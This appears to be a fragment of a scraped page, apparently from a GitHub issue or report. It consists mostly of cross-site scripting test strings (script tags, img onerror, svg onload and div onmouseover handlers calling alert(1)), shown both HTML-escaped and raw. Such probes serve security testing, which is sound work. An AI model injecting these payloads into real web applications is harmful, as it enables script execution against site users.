 # -script-alert-1-script-img-src-x-onerror-alert-1-img-svg-onload-alert-1-svg-di
">'>&lt;script>alert(1);&lt;/script>&lt;img src="x" onerror="alert(1)">&lt;/img>&lt;svg onload="alert(1)">&lt;/svg>&lt;div onmouseover="alert(1)">here&lt;/div>

"><script>alert(1);</script><img src="x" onerror="alert(1)"></img>
1
1
1
1
">'><script>alert(1);</script><img src="x" onerror="alert(1)"></img><svg onload="alert(1)"></svg><div onmouseover="alert(1)">here</div>
